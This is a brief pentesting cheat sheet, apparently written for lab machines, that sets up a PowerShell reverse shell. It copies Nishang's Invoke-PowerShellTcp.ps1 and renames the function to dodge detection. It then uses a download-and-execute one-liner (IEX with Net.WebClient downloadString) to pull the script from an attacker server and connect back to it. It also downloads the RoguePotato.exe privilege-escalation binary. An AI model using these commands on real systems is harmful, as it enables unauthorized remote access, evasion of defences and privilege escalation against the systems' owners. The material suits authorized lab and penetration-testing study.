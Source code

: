 # Powershell

powershell reverse shell

```text
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1

#edit this file to have the required reverse shell at the end
#and change the Invoke-PowerShellTcp to nopnopnop

:%s/Invoke-PowerShellTcp/nop/g
^^ in vim

nop -Reverse -IPAddress 10.10.14.28 -Port 4243
this line at the end of shell.ps1

# this is what gets us the reverse shell
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28:81/shell.ps1')"
```

smbserver or powershell download file

```text
invoke-webrequest -uri 'http://10.10.14.28/RoguePotato.exe' -outfile .\rp.exe
```



